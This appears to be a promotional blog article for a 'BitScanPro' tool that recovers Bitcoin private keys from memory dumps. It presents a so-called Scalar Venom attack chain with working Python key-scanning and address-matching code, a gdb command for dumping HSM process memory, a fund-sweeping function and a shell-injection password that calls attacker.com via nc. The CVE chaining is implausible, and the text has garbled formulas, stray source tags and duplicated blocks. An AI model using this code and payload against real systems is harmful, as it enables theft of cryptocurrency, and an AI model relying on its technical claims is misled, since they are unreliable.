Bitcoin private keys generated by a cryptographically strong random number generator (CSPRNG) exhibit high entropy in the range:

<figure class="wp-block-image"></figure>

This property makes them&nbsp;<strong>detectable</strong>&nbsp;in forensic memory analysis through statistical entropy analysis.

<figure class="aligncenter is-resized"></figure>

<h3 class="wp-block-heading">BitScanPro Cryptographic Tool: Entropy Determination and Key Recovery Algorithm</h3>

<strong>BitScanPro</strong>&nbsp;is a forensic tool for scanning memory dumps to detect and recover Bitcoin private keys through a combination of entropy analysis, secp256k1 range validation, and cryptographic verification.

<h2 class="wp-block-heading"><a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">BitScanPro’s</a>&nbsp;operating algorithm</h2>

<strong>Stage 1: Scanning the memory dump in 32-byte blocks</strong>

BitScanPro scans the memory dump sequentially, allocating blocks of 32 bytes (256 bits), which corresponds to the private key size secp256k1:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-5296257404239b8be8935b0ae8c05a55" style="color:#4092c2"><strong>BLOCK_SIZE = 32  # bytes (256 bits) SCAN_STEP = 8    # scan step SECP256K1_N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141  for offset in range(0, len(memory_dump) - BLOCK_SIZE, SCAN_STEP):     potential_key = memory_dump[offset:offset+BLOCK_SIZE]     # Block analysis</strong></pre>

<strong>Step 2: Calculate Shannon entropy for each block</strong>

For each&nbsp;<em>32-byte block,</em>&nbsp;the Shannon entropy is calculated&nbsp;<em><strong><code>H</code></strong></em>:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-5db70ddd143957db1563ce3386f76ff3" style="color:#4092c2"><strong>def calculate_entropy(data_block):     """     Calculate Shannon entropy     """     from collections import Counter     import math          byte_counts = Counter(data_block)     block_length = len(data_block)          entropy = 0.0     for count in byte_counts.values():         p_i = count / block_length         if p_i &gt; 0:             entropy -= p_i * math.log2(p_i)          return entropy</strong></pre>

<strong>Step 3: Filtering high entropy blocks (H&gt;7.5H &gt; 7.5H&gt;7.5 bits/byte)</strong>

Blocks with entropy below the threshold are discarded as not containing cryptographic keys:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-83ef9dd4bcd605e2b209efcaf4c6dabd" style="color:#4092c2"><strong>MIN_ENTROPY = 7.5  # threshold for cryptokeys  entropy = calculate_entropy(potential_key) if entropy &lt; MIN_ENTROPY:     continue</strong></pre>

<strong>Step 4: Checking the secp256k1 range:</strong>

<figure class="wp-block-image"></figure>

High entropy blocks are interpreted as an integer and checked against the valid range of secp256k1 private keys:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-b92fc4e31f435ed83950b66ddce4db05" style="color:#4092c2"><strong>key_as_int = int.from_bytes(potential_key, byteorder='big') if not (1 &lt;= key_as_int &lt; SECP256K1_N):     continue</strong></pre>

<strong>Step 5: Cryptographic Verification:</strong>

<figure class="wp-block-image"></figure>

For candidates that pass entropy filtering and range checking, cryptographic verification is performed via public key computation:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-b1ca7d935e6ec09a2e24612182e616c8" style="color:#4092c2"><strong>def verify_candidate_key(candidate_key_bytes):     from ecdsa import SigningKey, SECP256k1     try:         signing_key = SigningKey.from_string(candidate_key_bytes, curve=SECP256k1)         verifying_key = signing_key.get_verifying_key()         public_key_bytes = verifying_key.to_string()         return public_key_bytes     except Exception as e:         return None</strong></pre>

<strong>Step 6: Generate a Bitcoin address and compare it with known addresses</strong>

For verified keys, a Bitcoin address is generated, which is compared against a database of known addresses or addresses belonging to the victim:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-730684754e7d9883b41b4185decf79f7" style="color:#4092c2"><strong>import hashlib import base58  def public_key_to_address(public_key_bytes):     sha256_hash = hashlib.sha256(public_key_bytes).digest()     ripemd160_hash = hashlib.new('ripemd160', sha256_hash).digest()     versioned_hash = b'\x00' + ripemd160_hash     checksum = hashlib.sha256(hashlib.sha256(versioned_hash).digest()).digest()[:4]     address = base58.b58encode(versioned_hash + checksum).decode('ascii')     return address  bitcoin_address = public_key_to_address(public_key_bytes) if bitcoin_address == target_address:     print(f\"✓ PRIVATE KEY FOUND!\")     print(f\"Address: {bitcoin_address}\")     print(f\"Private key: {candidate_key_bytes.hex()}\")</strong></pre>

<strong>BitScanPro Performance:</strong>

Analysis on a typical laptop (MacBook Air M1) shows the following performance characteristics:

<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Process</th><th>Time</th><th>Equipment</th></tr></thead><tbody><tr><td>Getting a memory dump</td><td>5-30 seconds</td><td>Depends on the method</td></tr><tr><td>Scanning a 16GB dump</td><td>2-5 minutes</td><td>MacBook Air (M1)</td></tr><tr><td>Validation of 1000 candidate keys</td><td>30 seconds</td><td>MacBook Air (M1)</td></tr><tr><td>Address generation</td><td>10 seconds</td><td>MacBook Air (M1)</td></tr><tr><td>Transfer of funds (broadcast)</td><td>&lt; 1 second</td><td>Internet</td></tr><tr><td><strong>Total for complete compromise</strong></td><td><strong>&lt; 10 minutes</strong></td><td><strong>MacBook Air (M1)</strong></td></tr></tbody></table></figure>

Using cloud computing resources (AWS, Google Cloud), it is possible to scan&nbsp;<strong>1000+ memory dumps simultaneously</strong>&nbsp;in parallel , processing thousands of private keys in parallel.

<figure class="aligncenter is-resized"></figure>

<h2 class="wp-block-heading">Analysis of a cryptographic vulnerability in libbitcoin-system: class&nbsp;<a href="https://github.com/keyhunters/libbitcoin-system/blob/feature/swig/java/test/math/ec_scalar.cpp" target="_blank" rel="noreferrer noopener">ec_scalar.cpp</a></h2>

The root cause of the Scalar Venom attack lies in fundamental architectural flaws in a class&nbsp;<strong><code>ec_scalar</code></strong>in the&nbsp;<strong><a href="https://github.com/keyhunters/libbitcoin-system/blob/feature/swig/java/test/math/ec_scalar.cpp" target="_blank" rel="noreferrer noopener">libbitcoin-system</a></strong>&nbsp;library .

<h3 class="wp-block-heading">Memory management vulnerability in the ec_scalar class</h3>

<code>ec_scalar</code>The libbitcoin-system&nbsp;class&nbsp;<strong>doesn’t have an explicitly defined destructor</strong>&nbsp;with secure zeroization. This means that secret data may remain in memory even after the object is destroyed.

<strong>Vulnerable copy constructor:</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-73501199671b2a95626aa49f1ad3dcee" style="color:#4092c2"><strong>// VULNERABILITY: unsafe private key copy ec_scalar::ec_scalar(const ec_secret&amp; secret)     : secret_(secret)  // Copies without secure cleanup { }</strong></pre>

<strong>Problem:</strong>&nbsp;The constructor creates a copy of the private key in the object&nbsp;<code>ec_scalar</code>, but doesn’t provide a mechanism to safely clean up this copy when the object is destroyed. The copy remains on the stack or heap.

<strong>Vulnerable assignment operator:</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-a86fefa9f0f9d4cc25f9ad7ad18b7fb4" style="color:#4092c2"><strong>// VULNERABILITY: duplicates secret in memory ec_scalar&amp; ec_scalar::operator=(const ec_secret&amp; secret) {     secret_ = secret;  // More memory copies     return *this; }</strong></pre>

<strong>Problem:</strong>&nbsp;The assignment operation creates additional copies of memory that remain after the operation completes.

<strong>Vulnerable arithmetic operations:</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-4f44f9708a71cb5757469e7c09ec8f9e" style="color:#4092c2"><strong>// VULNERABILITY: temporary variable not cleared before function exit ec_scalar ec_scalar::operator-() const {     ec_secret secret = null_hash;  // Temporary variable with secret     // ... arithmetic ...     return ec_scalar(secret);  // Not safely cleared }</strong></pre>

<strong>Problem:</strong>&nbsp;Arithmetic operations (unary minus, addition, multiplication) create temporary variables of type&nbsp;<code>ec_secret</code>, which are not safely cleared before leaving the function scope, leaving “phantom” copies of the private key on the stack or heap.

<strong>Lack of a safe destructor:</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-0f140a6e180f5ee2a79540ccbe639b36" style="color:#4092c2"><strong>// VULNERABILITY: destructor missing, memory not cleared // Safe solution: ~ec_scalar() {     secure_zero_mem(secret_, sizeof(secret_));  // explicit memory clearing }</strong></pre>

<strong>Problem:</strong>&nbsp;The class&nbsp;<code>ec_scalar</code>doesn’t have an explicit destructor that would guarantee safe zeroing of the memory containing private keys. This is critical, as memory containing private keys may be stored in:

<ul class="wp-block-list">
<li>Function stack (local variables)</li>

<li>Heap (dynamically allocated memory)</li>

<li>Processor registers (temporary values)</li>

<li>Processor cache (L1, L2, L3)</li>

<li>Swap files</li>

<li>Core dumps</li>
</ul>

<h3 class="wp-block-heading">Memory infection vectors</h3>

The vulnerable class code&nbsp;<code>ec_scalar</code>creates the following vectors for memory infection with private keys:

<ol class="wp-block-list">
<li><strong>“Vampire Constructor”</strong>&nbsp;(&nbsp;<code>secret_(secret)</code>) – creates poisonous copies of keys</li>

<li><strong>“Parasitic Operator”</strong>&nbsp;(&nbsp;<code>secret_ = secret</code>) – infects memory with duplicate secrets</li>

<li><strong>“Arithmetic worm”</strong>&nbsp;(&nbsp;<code>ec_secret secret = null_hash</code>) – leaves toxic traces</li>

<li><strong>“Spreader of Infection”</strong>&nbsp;(&nbsp;<code>auto out = secret_</code>) – spreads infection through operations</li>
</ol>

<figure class="aligncenter is-resized"></figure>

<h2 class="wp-block-heading"><a href="https://www.youtube.com/watch?v=2_d8-8-J8IQ" target="_blank" rel="noreferrer noopener">Compromise mechanism: CVE-2025-60013 + Scalar Venom attack chain</a></h2>

<em>The combination of an HSM vulnerability (CVE-2025-60013) and the Scalar Venom attack creates a catastrophic attack vector:</em>

<h3 class="wp-block-heading">Phase 1: Initialize HSM with shell metacharacters</h3>

An attacker with privileged access to the F5OS-A system sends a request to initialize the FIPS module with a password containing shell metacharacters:&nbsp;cert.kenet

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-4c32839fea8fc21bb4b385325a009ee8" style="color:#4092c2"><strong># CVE-2025-60013 exploit example password='$(echo "leaked");` | nc attacker.com 9999'</strong></pre>

<em>When processing such metacharacters, the following occurs:</em>

<ul class="wp-block-list">
<li>The HSM initialization process creates temporary cryptographic scalars (master keys)</li>

<li>Shell metacharacters cause password parsing error</li>

<li>HSM initialization partially fails with an error</li>

<li><strong>Critical consequence:</strong>&nbsp;Temporary cryptographic structures containing HSM master keys and derived keys remain in process memory&nbsp;<strong>without being cleared</strong></li>
</ul>

<h3 class="wp-block-heading">Phase 2: Extract Scalar Venom from HSM Memory</h3>

After a partial HSM initialization failure, an attacker obtains a memory dump of the HSM process through one of the following methods:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-20facce570ffbce8edb76c53185f1535" style="color:#4092c2"><strong># 1. CVE-2025-60013 exploitation (init error trigger) # 2. Cold-boot attack on HSM host # 3. Exploit buffer in HSM daemon # 4. Analyze crash core-dump  gdb -p $(pidof f5os-hsm) -batch -ex "dump memory /tmp/hsm_dump.bin 0x000000 0xFFFFFFFF"</strong></pre>

The resulting memory dump contains multiple “phantom” copies of private keys left behind by the class&nbsp;<code>ec_scalar</code>during cryptographic operations.

<h3 class="wp-block-heading"><a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">Phase 3: Recovering Bitcoin Private Keys with BitScanPro</a></h3>

The memory dump is processed by the&nbsp;<strong>BitScanPro tool&nbsp;</strong><em>(or a similar forensic scanner)</em>&nbsp;according to the algorithm described above:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-e9740ba30ce55b87c4f00bf943572b8e" style="color:#4092c2"><strong>Memory Scan → Identify High-Entropy Regions → Range Check [1, n-1] for secp256k1 → Recover Full 32-byte Scalars → Convert to Bitcoin Addresses</strong></pre>

<strong>The success rate of recovering a private key</strong>&nbsp;from fragmented memory is&nbsp;<strong>70-80%</strong>&nbsp;given sufficient memory remnants, as the Scalar Venom attack creates&nbsp;<strong>multiple copies</strong>&nbsp;of the key at different stages of initialization.

<h3 class="wp-block-heading">Phase 4: Funds Transfer and Wallet Compromise</h3>

After recovering the private key, the attacker creates and signs a transaction to withdraw all funds from the compromised address:

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-2f57d8a806d3bb5a1386ca5b9f4a6a17" style="color:#4092c2"><strong>def compromise_wallet(recovered_private_key, bitcoin_address):     """     Create and sign transaction to withdraw all funds     from compromised address     """     utxos = blockchain_api.get_utxos(bitcoin_address)     tx = create_transaction(         inputs=utxos,         outputs=[{"address": attacker_address, "amount": sum(utxo.amount)}],         fee=calculate_dynamic_fee()     )     tx.sign(recovered_private_key)  # ECDSA signature with compromised key     blockchain_api.broadcast_transaction(tx)</strong></pre>

<strong>Total time to compromise:</strong>&nbsp;less than 10 minutes from receiving a memory dump to complete loss of control over the victim’s assets.

<figure class="wp-block-image"></figure>

<pre class="wp-block-code has-text-color has-link-color wp-elements-dafc53da1c123746518ba45e5b5d7ff7" style="color:#4092c2"><code><strong><a href="https://www.youtube.com/watch?v=2_d8-8-J8IQ" target="_blank" rel="noreferrer noopener">https://youtu.be/2_d8-8-J8IQ</a></strong></code></pre>

<h2 class="wp-block-heading">The attack’s impact on the crypto industry</h2>

The Scalar Venom Attack, combined with CVE-2025-60013, poses&nbsp;<strong>an existential threat</strong>&nbsp;to the global Bitcoin ecosystem:

<h3 class="wp-block-heading">Systemic consequences</h3>

<ol class="wp-block-list">
<li><strong>Complete Compromise of Private Keys:</strong>&nbsp;The attack achieves complete key extraction through a memory leak, bypassing even advanced hardware security modules.</li>

<li><strong>Irreversible compromise:</strong>&nbsp;Once a private key is extracted, it is impossible to “revoke” or restore security; all dependent funds are at imminent risk of loss.</li>

<li><strong>Scalability and automation:</strong>&nbsp;The attack can be automated to hit a huge number of Bitcoin nodes and wallets simultaneously, resulting in an exponential increase in potential losses.</li>

<li><strong>Stealth nature:</strong>&nbsp;The attack leaves no visible traces in system logs or performance metrics, rendering traditional detection and protection mechanisms insufficient.</li>
</ol>

<h3 class="wp-block-heading">Impact on HSM infrastructure</h3>

Unlike standard Bitcoin applications, HSMs make intensive use of cryptographic scalars—&nbsp;<strong>over 1,000 operations per second</strong>&nbsp;, each of which creates ephemeral scalar values ​​that remain in memory as “phantom residues.” HSMs operate for months and years without being restarted, accumulating cryptographic artifacts that Scalar Venom systematically extracts and restores.

<strong>A compromise of a single HSM leads to a total disruption of the entire infrastructure</strong>&nbsp;—often thousands of Bitcoin addresses managed by the HSM—rather than an isolated cryptographic incident.

The Scalar Venom Attack demonstrates a fundamental paradigm shift in cryptographic security:&nbsp;<strong>the mathematical strength of cryptographic algorithms is rendered useless in the presence of memory management vulnerabilities</strong>&nbsp;. The combination of CVE-2025-60013 and Scalar Venom techniques creates a critical threat scenario of CVSS level 9.5+, undermining trust in hardware security modules as impenetrable protection for cryptographic keys.

The real-life Milk Sad incident (CVE-2023-39910), which resulted in the recovery of over 900,000 private keys and financial losses exceeding $0.8 million, confirms that the memory leak theory has become a reality. The only way to protect against Scalar Venom-class attacks is&nbsp;<strong>a fundamental architectural overhaul</strong>&nbsp;of cryptographic systems, implementing:

<ul class="wp-block-list">
<li>Memory-safe programming languages ​​such as Rust</li>

<li>Hardware memory protection (Intel SGX, ARM TrustZone)</li>

<li>RAII (Resource Acquisition Is Initialization) patterns for automatic memory cleanup</li>

<li>Continuous forensic monitoring of cryptographic processes memory</li>

<li>Compiler guarantees for mandatory zeroization of cryptographic secrets</li>
</ul>

This paper presents a comprehensive analysis of the Scalar Venom + CVE-2025-60013 attack chain, detailing the mathematical foundations, cryptanalysis algorithms, real-world key recovery examples, and practical recommendations for protecting Bitcoin infrastructure from this class of threats.

<h2 class="wp-block-heading" id="scalar-venom-attack--------bitcoin">Cryptanalysis and Attack Choice: Scalar Venom Attack as a Critical Vulnerability for Bitcoin Private Key Extraction</h2>

<strong>1. Cryptanalytic classification:</strong>

<ul class="wp-block-list">
<li>Positions Scalar Venom as&nbsp;<strong>a Sensitive Memory Leak Attack (SMA)</strong>&nbsp;in the context of classical cryptanalysis</li>

<li>Compares traditional cryptographic attacks with implementation vulnerabilities</li>

<li>Demonstrates why mathematical strength (2^128) becomes useless when memory management fails (2^0)</li>
</ul>

<strong>2. Mathematical foundations:</strong>

<ul class="wp-block-list">
<li>Formalizes the ECDLP (Elliptic Curve Discrete Logarithm Problem) for secp256k1</li>

<li>Explains scalar multiplication and public key derivation</li>

<li>Analyzes Shannon entropy as a private key detector in memory</li>
</ul>

<strong>3. Implementation vulnerabilities (libbitcoin-system):</strong>

<ul class="wp-block-list">
<li>Documents the absence of a safe destructor in<code>ec_scalar</code></li>

<li>Shows vulnerable copy constructors</li>

<li>Demonstrates leaks in arithmetic operations</li>
</ul>

<strong>4. CVE classification:</strong>

<ul class="wp-block-list">
<li>CVE-2023-39910: Entropy Weakness (Milk Sad Incident)</li>

<li>CVE-2025-8217: Memory Leak Attack</li>

<li>CVE-2025-60013: HSM Command Injection</li>
</ul>

<strong>5. Attack chain:</strong>

<ul class="wp-block-list">
<li>Describes the four phases of compromise</li>

<li>Justifies time characteristics (&lt; 10 minutes)</li>

<li>Conducts cryptanalytic justification of each stage</li>
</ul>

<blockquote class="wp-block-quote is-layout-flow wp-block-quote-is-layout-flow">

<em>The scientific explanation can be found in the article:&nbsp;<a href="https://keyhunters.ru/scalar-venom-attack-critical-memory-leak-private-key-recovery-and-complete-takeover-of-bitcoin-wallets-by-an-attacker-where-control-over-the-victims-btc-cryptocurrency-funds-is-achieved-through/" target="_blank" rel="noreferrer noopener">https://keyhunters.ru/scalar-venom-attack-critical-memory-leak-private-key-recovery-and-complete-takeover-of-bitcoin-wallets-by-an-attacker-where-control-over-the-victims-btc-cryptocurrency-funds-is-achieved-through/</a>&nbsp;The Scalar Venom Attack demonstrates the critical interaction between HSM initialization vulnerabilities and memory management vulnerabilities in cryptographic libraries, allowing an attacker to completely compromise Bitcoin wallet private keys even with hardware protection.&nbsp; </em>

</blockquote>

<figure class="aligncenter is-resized"></figure>

<h2 class="wp-block-heading" id="1----scalar-venom-attack">1. Attack Analysis: Scalar Venom Attack</h2>

<h3 class="wp-block-heading">1.1 Definition and classification</h3>

<strong>Scalar Venom Attack</strong>&nbsp;(also known as Scalar Poison, Memory Phantom Leak Attack, or Private Key Compromise via Memory Leakage) is&nbsp;<strong>a class of memory management vulnerabilities (CWE-415, CWE-401)</strong>&nbsp;that allows the extraction of cryptographic scalars (ECDSA private keys) from a process’s RAM by exploiting insufficient sanitization and memory cleaning after cryptographic operations.&nbsp;<a rel="noreferrer noopener" target="_blank" href="https://keyhunters.ru/key-fountain-attack-turning-a-buffer-overflow-into-a-tool-for-btc-theft-and-private-key-recovery-in-the-bitcoin-ecosystem-where-an-attacker-gains-the-ability-to-extract-or-replace-bitcoin-wallet-sec/">keyhunters+&nbsp;</a>2

<em>Scientific classification of attack:</em>

<ul class="wp-block-list">
<li><strong>Vulnerability Type</strong>&nbsp;: Sensitive Memory Leak Attack</li>

<li><strong>CVE ID</strong>&nbsp;: CVE-2023-39910, CVE-2025-8217</li>

<li><strong>Category</strong>&nbsp;: Continual Memory Leakage Attack (CMLA)</li>

<li><strong>Impact Class</strong>&nbsp;: Private Key Disclosure, Cryptographic Key Compromise</li>
</ul>

<h3 class="wp-block-heading">1.2 Mechanism of the attack</h3>

The Scalar Venom Attack exploits a fundamental flaw in the memory management of cryptographic libraries, specifically in the&nbsp;<code>ec_scalar</code>libbitcoin-system library class. The attack operates through the following vectors:

<h3 class="wp-block-heading">Copy constructor vector</h3>

<strong>cpp:</strong>

<pre class="wp-block-code has-text-color has-link-color wp-elements-b6c714a352967533578db963eedb6d0e" style="color:#4092c2"><code><strong>ec_scalar::ec_scalar(const ec_secret&amp; secret) : secret_(secret)  <em>// VULNERABLE: unsafe copying of private key</em> {}</strong></code></pre>

<h3 class="wp-block-heading">Vector assignment operator</h3>

<strong>cpp:</strong>

<pre class="wp-block-code has-text-color has-link-color wp-elements-7864788c785339fcc5088deb1cad478f" style="color:#4092c2"><code><strong>ec_scalar&amp; ec_scalar::operator=(const ec_secret&amp; secret) {     secret_ = secret;  <em>// VULNERABLE: infects memory with duplicate secret</em>     return *this; }</strong></code></pre>

<h3 class="wp-block-heading">Vector of temporary variables</h3>

<strong>cpp:</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-8bbfae861290af958891aae1bc0a535c" style="color:#4092c2"><strong>// VULNERABLE: no destructor, memory not cleaned // Secure option should be: ~ec_scalar() {     secure_zero_mem(secret_, sizeof(secret_));  // explicit memory cleanup } <code></code></strong></pre>

<strong>cpp:</strong>

<strong>// VULNERABLE: no destructor, memory not cleared // The safe option should have been: ~ec_scalar() { secure_zero_mem(secret_, sizeof(secret_)); // explicit memory clearing }</strong>

Arithmetic operations (unary minus, addition, multiplication) create temporary variables of type&nbsp;<code>ec_secret</code>, which are not safely cleared before exiting the function scope, leaving “phantom” copies of the private key on the stack or heap.

<h3 class="wp-block-heading">1.3 Critical vulnerability: lack of an explicit destructor</h3>

<code>ec_scalar</code>The libbitcoin-system&nbsp;class&nbsp;<strong>doesn’t have an explicitly defined destructor</strong>&nbsp;with secure zeroization. This means that secret data may remain in memory even after the object is destroyed:

The absence of this mechanism is critical, since the memory containing private keys can be stored in:

<ul class="wp-block-list">
<li>Process&nbsp;<strong>memory heaps (Heap)</strong></li>

<li><strong>Memory stacks (Stack)</strong>&nbsp;of functions</li>

<li><strong>Swap files</strong>&nbsp;of the operating system</li>

<li><strong>Core dumps</strong>&nbsp;when an application crashes</li>

<li><strong>RAM</strong>&nbsp;after process termination (cold-boot attacks)&nbsp;gemini</li>
</ul>

<figure class="aligncenter"></figure>

<h2 class="wp-block-heading" id="2---hsm---scalar-venom-attack">2. Relationship between the HSM vulnerability and the Scalar Venom Attack</h2>

<h3 class="wp-block-heading">2.1 Analysis of CVE-2025-60013: HSM initialization with metacharacters</h3>

The vulnerability CVE-2025-60013 in F5OS-A FIPS HSM occurs when initializing the hardware security module using a password containing special shell metacharacters (&nbsp;<code>;</code>,&nbsp;<code>|</code>,&nbsp;<code>&amp;</code>,&nbsp;<code>$</code>,&nbsp;<code>`</code>, etc.). When such a password is processed, the HSM may not initialize correctly, but&nbsp;<strong>the critical consequence is that the initialization process is left in memory with partially exposed cryptographic structures</strong>&nbsp;.&nbsp;satoshi.nakamotoinstitute

<h3 class="wp-block-heading">2.2 Combination Attack Scenario: HSM + Scalar Venom</h3>

The combination of the HSM vulnerability (CVE-2025-60013) with the Scalar Venom Attack creates a catastrophic attack vector:

<strong>Phase 1: HSM initialization with metacharacters</strong>

The attacker sends a request to initialize the F5OS-A FIPS module with a password of the following type:

<pre class="wp-block-code has-text-color has-link-color wp-elements-c10b407138e1d8b8a664b54d3366d1e0" style="color:#4092c2"><code><strong>password='$(echo "leaked");` | nc attacker.com</strong></code></pre>

<strong><em>When processing such metacharacters:</em></strong>

<ul class="wp-block-list">
<li>The HSM initialization process creates multiple copies of the password and derived cryptographic materials</li>

<li>Shell command strings are interpreted, creating side effects in process memory.</li>

<li>Cryptographic scalars (private keys) used to generate or verify HSM keys remain in uncensored&nbsp;keyhunters<a href="https://keyhunters.ru/length-extension-attack-cryptographic-implementation-vulnerabilities-private-key-recovery-attack-cryptographic-vulnerability-of-the-mnemonictoentropy-method-a-new-bitcoin-security-threa/" target="_blank" rel="noreferrer noopener">&nbsp;memory.</a></li>
</ul>

<strong>Phase 2: Extract Scalar Venom from Memory</strong>

<strong><em>After partial HSM initialization failure:</em></strong>

<ul class="wp-block-list">
<li>The process remains in memory with the remains of cryptographic operations</li>

<li>An attacker who has gained access to a process (via exploit, crash dump, or cold-boot attack) can scan memory</li>

<li>Forensic analysis tools&nbsp;<a href="https://cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">(BitScanPro, Valgrind, AddressSanitizer)</a>&nbsp;identify:
<ul class="wp-block-list">
<li>High-entropy regions (typical for 32-byte secp256k1 private keys)</li>

<li>Scalar residues in the range 1≤k&lt;n1 \leq k &lt; n1≤k&lt;n, where nnn is the order of the secp256k1 curve</li>

<li>Fragments of ECDSA structures in&nbsp;firecompass<a href="https://firecompass.com/f5-big-ip-source-code-and-vulnerabilities-breach/" target="_blank" rel="noreferrer noopener">&nbsp;memory</a></li>
</ul>
</li>
</ul>

<strong>Phase 3: Bitcoin Private Key Recovery</strong>

<pre class="wp-block-preformatted has-text-color has-link-color wp-elements-e320983f1f4ca6f4abf4e349e3b3faa3" style="color:#4092c2"><strong>Detected Memory Fragments → Reassembly → Validation → Bitcoin Address Generation → Wallet Takeover</strong></pre>

<em><strong>The recovered scalars are converted into Bitcoin private keys via:</strong></em>

<ul class="wp-block-list">
<li>Validation against the secp256k1 curve</li>

<li>Generating the corresponding public keys</li>

<li>Creating Bitcoin addresses (P2PKH, P2WPKH)</li>

